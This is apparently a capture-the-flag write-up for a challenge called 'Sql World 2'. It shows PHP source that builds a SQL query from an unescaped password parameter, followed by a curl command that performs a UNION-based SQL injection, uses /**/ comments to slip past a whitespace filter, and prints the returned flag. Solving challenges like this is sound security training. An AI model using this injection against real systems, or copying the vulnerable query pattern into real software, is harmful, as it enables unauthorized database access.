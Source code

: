 # Sql World 2
web.isangxcaution.xyz:20300/sql2.php

Made by smart_kang

Hint <br>
Ummm I think data isn't exists in sql2 table....

```php
<?php
    include "./config.php";
    $db = $link;
    $pw = '';
    if(isset($_GET['pw'])){
        $pw = $_GET['pw'];
        if(preg_match('/[[:space:]]/i', $_GET['pw'])) exit("No whitespace ~_~"); 
    }
    $query = "select id from sql2 where id='admin' and pw='$pw'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysqli_fetch_array(mysqli_query($db,$query));
    if($result['id']) echo $FLAG2;
    highlight_file(__FILE__);

?>
```
Union이나 Join 사용해서 sql1 table에서 select해오면 FLAG return.

```sh
❯ curl http://web.isangxcaution.xyz:20300/sql2.php\?pw\=%27/\*\*/union/\*\*/select/\*\*/id/\*\*/from/\*\*/sql1/\*\*/where/\*\*/id\=%27admin
<hr>query : <strong>select id from sql2 where id='admin' and pw=''/**/union/**/select/**/id/**/from/**/sql1/**/where/**/id='admin'</strong><hr><br><br><h2>FLAG : IxC{Th3r3_was_actually_n0_data_in_db~}</h2><br><code><span style="color: #000000">
```
